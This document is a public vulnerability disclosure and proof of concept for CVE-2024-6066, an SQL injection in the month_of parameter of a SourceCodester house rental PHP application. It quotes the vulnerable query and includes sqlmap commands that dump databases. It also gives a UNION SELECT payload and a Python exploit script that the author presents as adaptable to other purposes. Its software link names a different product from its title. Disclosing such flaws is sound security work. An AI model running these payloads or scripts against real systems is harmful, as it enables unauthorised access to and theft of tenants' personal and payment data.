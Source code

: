 ```yaml
---
title: CVE-2024-6066
draft: false
tags:
  - cve
---
```

# SQL Injection Vulnerability at Sourcecodester House Rental Management System

> A vulnerability classified as critical has been found in SourceCodester Best House Rental Management System 1.0. Affected is an unknown function of the file payment_report.php. The manipulation of the argument month_of leads to sql injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. VDB-268794 is the identifier assigned to this vulnerability.

Official Website: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

Version: v1.0

route`:/payment_report.php?month_of=<payload>`

Related Code file: `payment_report.php`

Injection parameter: `month_of`
## Vulnerability Analysis

Vulnerable code:

```php
$payments = $conn->query("SELECT p.*, concat(t.lastname,', ',t.firstname,' ',t.middlename) as name, h.house_no FROM payments p INNER JOIN tenants t ON t.id = p.tenant_id INNER JOIN houses h ON h.id = t.house_id WHERE date_format(p.date_created,'%Y-%m') = '$month_of' ORDER BY unix_timestamp(date_created) ASC");
```

The part of this code that is vulnerable to SQL injection is the following SQL query, where the $month_of parameter is directly included in the SQL statement without any sanitization or use of prepared statements.
Because the `$month_of` parameter is coming directly from user `input ($_GET['month_of'])`. An attacker could manipulate this input to include malicious SQL code.

## Vulnerability Verification and Exploit
We can easily recreate this vulnerability using sqlmap as such:

Below is for basic sql injection testing:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/90efd07f-9db7-479e-a186-18d9a4316666)

Below is the payload that can be used to reproduce withouut sqlmap

```
month_of=2024-06' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b6271,0x7150726e686a6f7a51496176746f794e58766344546e746a77414663655079734a697847496f4557,0x716b7a6271),NULL-- -
```

Below is the command used to dump database list:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/042e913b-ac47-4ecd-a41f-c40adc4dbfdb)

Below is the command used to dump data inside house_rental_latest database:

`sqlmap 'http://172.16.76.1/rental/payment_report.php?month_of=2024-06' --batch --dbs -D house_rental_latest --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/464aa85e-990d-4247-9573-c0fb833b3208)


## Exploit Code

Below is the Python code that can be customized. 

For now it is listing the database on the system but could be modified for different purpose:

```python
# Exploit Title: SQL Injection Vulnerability at Sourcecodester House Rental Management System
# Date: 2024/06/18
# Exploit Author: jadu101
# Vendor Homepage: https://www.sourcecodester.com
# Software Link: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
# Version: 1.0 (REQUIRED)
# Tested on: Ubuntu
# CVE : CVE-2024-6066


import requests
from bs4 import BeautifulSoup

def extract_tenant_column(html_content):
    """
    Extracts the Tenant column data from the HTML content.
    """
    soup = BeautifulSoup(html_content, 'html.parser')
    tenants = []

    # Locate the table containing the report
    table = soup.find('table', {'class': 'table'})
    if not table:
        return tenants

    # Locate the headers to find the Tenant column index
    headers = table.find_all('th')
    tenant_index = -1
    for index, header in enumerate(headers):
        if 'Tenant' in header.text:
            tenant_index = index
            break

    if tenant_index == -1:
        return tenants

    # Extract the data from the Tenant column
    rows = table.find_all('tr')
    for row in rows:
        columns = row.find_all('td')
        if len(columns) > tenant_index:
            tenant_data = columns[tenant_index].text.strip()
            tenants.append(tenant_data)

    return tenants

# Define the base URL of the application (CHANGE HERE)
base_url = "http://127.0.0.1/rental/payment_report.php"

# Define the vulnerable parameter and the new payload to list the current database (CHANGE the PAYLOAD)
vulnerable_param = "month_of"
payload = "2024-06' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, DATABASE(), NULL-- -"

# Construct the URL with the payload
url = f"{base_url}?{vulnerable_param}={payload}"

# Make the GET request to the vulnerable URL
response = requests.get(url)

# Check if the response was successful
if response.status_code == 200:
    # Extract and print the Tenant column data
    tenant_column_data = extract_tenant_column(response.text)
    if tenant_column_data:
        print("Output of SQL Query:")
        for tenant in tenant_column_data:
            print(tenant)
    else:
        print("SQL Injection unsuccessful. Recheck your Query")
else:
    print(f"Failed to retrieve the page. Status Code: {response.status_code}")
    print("Response Text:")
    print(response.text)
```




